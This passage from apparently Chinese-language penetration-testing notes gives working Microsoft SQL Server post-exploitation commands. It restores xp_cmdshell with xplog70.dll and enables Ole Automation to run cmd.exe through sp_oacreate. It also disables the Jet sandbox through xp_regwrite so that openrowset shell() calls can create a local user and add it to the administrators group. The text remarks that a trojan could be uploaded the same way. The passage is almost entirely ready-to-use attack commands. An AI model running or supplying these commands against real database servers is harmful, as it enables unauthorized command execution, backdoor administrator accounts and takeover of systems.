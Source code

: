 ```bash

# 如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复(xplog70.dll可以自己本地安装然后复制出来)
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll'

```



### sp_oacreate

```bash
## 启用：
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   

# 关闭：
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 0;   
RECONFIGURE WITH OVERRIDE;  

## 执行： 
# 这个也可以上传一个木马
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
# 针对无回显，就可以输出到txt文件：把系统命令执行结果输出到1.txt
#以上是使用sp_oacreate的提权语句，主要是用来调用OLE对象（Object Linking and Embedding的缩写，VB中的OLE对象），利用OLE对象的run方法执行系统命令。


```



### SQL Server CLR

CLR有点繁琐，参考文章：https://www.cnblogs.com/wh4am1/p/11669539.html



### SQL Server 沙盒

```sql
exec sp_configure 'show advanced options',1;reconfigure;
-- 不开启的话在执行xp_regwrite会提示让我们开启，
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

-- 关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

-- 查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

-- 执行系统命令
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user test test /add")')
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators test /add")')

沙盒模式SandBoxMode参数含义（默认是2）
`0`：在任何所有者中禁止启用安全模式
`1` ：为仅在允许范围内
`2` ：必须在access模式下
`3`：完全开启
```